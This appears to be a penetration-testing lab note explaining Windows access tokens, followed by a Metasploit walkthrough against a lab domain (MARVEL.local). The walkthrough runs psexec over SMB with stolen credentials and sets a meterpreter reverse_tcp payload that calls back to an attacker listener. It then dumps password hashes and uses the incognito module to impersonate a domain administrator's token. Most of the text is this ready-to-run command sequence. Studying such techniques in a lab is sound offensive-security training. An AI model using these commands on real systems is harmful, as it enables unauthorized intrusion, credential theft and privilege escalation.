 Temporary tokens that allow you to access a network or computer without having to provide user credentials each time you have to access a file. Think of cookies for computers

+ Delegate Tokens - Created for logging to a machine or RDP
+ Impersonate - Non Interactive such as attaching network drive or domain logon script

## metasploit
```sh
> use exploit/windows/smb/psexec
> show options
> set rhosts <Victim host IP Address>
> set smbdomain <domain.local: MARVEL.local>
> set smbpass <password: Password1>
> set smbuser <username:fcastle>
> show targets
> set target 2 (native upload)
> show options
> # verify everything
> set payload windows/x64/meterpreter/reverse_tcp
> show options
> set lhost <Listener IP: eth0>
> run

# meterpreter session popped 

> hashdump
> whoami
> getuid
> load (tab tab)
> # you will see many options like mimikatz kiwi incognito etc
> load incognito
> help
# to list all the user token available
> list_tokens -u
# after analysing the output, select a user which is logged in to system
> impersonate_token <domainname//username: marvel//administrator>
# use \\ as character escaping
# now we have impersonated the administrator
> whoami
> getuid
> hashdump #wont work cos of impersonation, only work in as original/logged in user
# To get back to old self
> rev2self
> hashdump # now it will work

```

### Reference: https://www.offensive-security.com/metasploit-unleashed/fun-incognito/